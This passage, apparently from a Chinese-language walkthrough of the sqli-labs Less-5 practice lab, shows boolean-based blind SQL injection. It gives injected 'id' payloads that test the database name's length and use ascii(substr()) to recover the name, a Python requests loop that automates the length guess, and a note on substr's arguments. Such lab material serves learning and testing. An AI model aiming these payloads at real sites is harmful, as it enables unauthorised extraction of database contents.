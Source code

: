 查询database名长度

  

`id=1' and length((select database()))>9 --+`

  

```python

import requests

  

url_template = 'http://xxx/sqli-labs-master/Less-5/?id=1\' and length((select database()))={} --+'

length = 1

  

def guess_length(length):

    response = requests.get(url_template.format(length))

    return 'You are in' not in response.text

  

while guess_length(length):

    length += 1

  

print(f"The length of the database name is: {length}")

  

```

  
  

再通过substr()和ASCII查询到database名

  

`id=1' and ascii(substr((select database()), 1, 1))=115 --+`

  

substr(a,b,c)

  

- a为截取的字符串

- b为截取的位置

- c为截取的长度
